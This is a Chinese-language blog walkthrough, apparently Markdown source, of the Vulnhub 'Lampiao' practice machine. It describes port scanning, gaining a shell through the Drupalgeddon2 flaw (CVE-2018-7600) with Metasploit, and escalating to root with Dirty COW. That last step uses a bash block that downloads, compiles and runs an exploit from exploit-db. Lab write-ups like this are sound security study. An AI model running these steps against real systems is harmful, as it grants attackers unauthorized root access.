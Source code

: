 ```yaml
---
title: Vulnhub - Lampiao の Write-Up
date: 2020-01-14 20:28:20
categories:
- WriteUPs
- Vulnhub
tags:
- Web
---
```

## 前言

&emsp;&emsp;今天尝试了下[Lampiao](https://www.vulnhub.com/entry/lampiao-1,249/)靶机，这是一台很简单的靶机，没有任何难度。

<!-- more -->

## Step 1

&emsp;&emsp;老套路，找靶机IP然后扫描端口：

![](/img/Lampiao/Lampiao1.png)

![](/img/Lampiao/Lampiao2.png)

&emsp;&emsp;22，80，1898这三个端口一目了然，主要的注意力肯定在这个Drupal 7服务上。

## Step 2

&emsp;&emsp;80端口简单看一下：

![](/img/Lampiao/Lampiao3.png)

&emsp;&emsp;就是个幌子，分散注意力的，什么有用的都没有。直接聚焦到1898端口：

![](/img/Lampiao/Lampiao4.png)

&emsp;&emsp;关于Drupal服务，其实很熟悉，在[DC-1](https://coldwave96.github.io/2019/11/14/DC-1)这台靶机中就接触过了。在MSF中查找这个漏洞的利用模块，一个一个尝试，很快我们就得到了目标机器的emterpreter。

![](/img/Lampiao/Lampiao5.png)

&emsp;&emsp;回过头我们再去了解一下这个漏洞，这是[Drupalgeddon-2漏洞](https://xz.aliyun.com/t/2271)，CVE编号CVE-2018-7600，对于默认或常见的Drupal安装来说，该漏洞允许攻击者在未经身份验证的情况下远程执行代码。

## Step 3

&emsp;&emsp;得到的是低权限的shell，下一步当然就是提权了，通过查看靶机内核，发现这是一台ubuntu 14.04的机器，并且其存在[脏牛漏洞](https://www.freebuf.com/vuls/117331.html)。

&emsp;&emsp;通过脏牛漏洞提权即可获得root权限，flag.txt就在root根目录下：

```bash
$ wget https://www.exploit-db.com/download/40847.cpp
$ g++ -Wall -pedantic -O2 -std=c++11 -pthread -o dcow 40847.cpp -lutil
$ ./dcow -s
```

![](/img/Lampiao/Lampiao6.png)
